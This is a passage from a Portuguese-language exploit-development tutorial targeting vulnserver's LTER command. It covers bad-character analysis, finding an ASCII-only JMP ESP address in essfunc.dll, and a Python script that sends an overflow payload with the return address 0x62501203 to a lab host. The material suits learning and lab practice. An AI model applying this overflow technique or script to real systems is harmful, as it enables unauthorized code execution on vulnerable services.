 Ao seguirmos o dump do ESP, podemos ver que nossos caracteres seguiram normalmente do 0x01 até 0x7f, a partir daí, o vulnserver começou a substituir nossos caracteres por outros, o 0x80 por 0x01, o 0x81 por 0x02 e assim por diante.

Isso explica por que o 0xd3 do nosso JMP ESP foi substituído por 0x09. O que significa que temos uma quantidade limitadíssima de 127 caracteres para fazer todo nosso exploit.

Precisamos continuar, nosso JMP ESP não funcionou, mas podemos adicionar o comando “ascii” à nossa pesquisa no Immunity, para tentar encontrar um JMP ESP que contenha apensas caracteres ANSI.

![Enumaração do comando.](/img/std/winbof/winbof-87.png)

Temos dois endereços, que por sinal estão na essfunc.dll que acompanha o vulnserver. No meu caso, vou utilizar o 0x62501203.

Atualizando script.

xpllter.py:

```bash
#!/usr/bin/python3

import socket

# variaveis de conexao
ip = "192.168.1.30"
porta = 9999

# variaveis de payoad
offset = 3000

# payload
payload = b"LTER /."
payload += b"A" * 2005
payload += b"\x03\x12\x50\x62"
payload += b"C" * (offset - 2005 - 4)

# criando conexao
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip,porta))
s.recv(1024)

print("Enviando payload...")

s.send(payload + b"\r\n")
s.close()

print("Payload enviado.")
```
